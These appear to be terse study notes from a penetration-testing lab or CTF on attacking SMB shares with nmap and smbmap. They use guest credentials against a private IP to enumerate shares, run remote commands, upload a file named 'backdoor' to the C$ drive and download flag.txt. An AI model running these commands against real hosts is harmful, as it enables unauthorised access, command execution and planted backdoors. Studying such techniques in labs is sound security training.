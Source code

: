 

--script smb-protocols  | version information 

smbmap -u guest -p "" -d . -H 192.168.0.1 | user/pass/directory/host |will give us shares and permissions 

smbmap -u guest -p "" -d . -x 'ipconfig' -H 192.168.0.1 | added -x which runs command 

-x any command -L

-r 'C$' to connect to drive it will do 'ls' command on drive 

we can make
upload backdoor file and put it in C drive 
create file in current directory 
touch backdoor
smbmap -u guest -p "" -d . --upload '/root/backdoor' 'C$\\backdoor'-H 192.168.0.1

we could reverse and
download file 

smbmap -u guest -p "" -d . --download 'C$\\flag.txt'-H 192.168.0.1
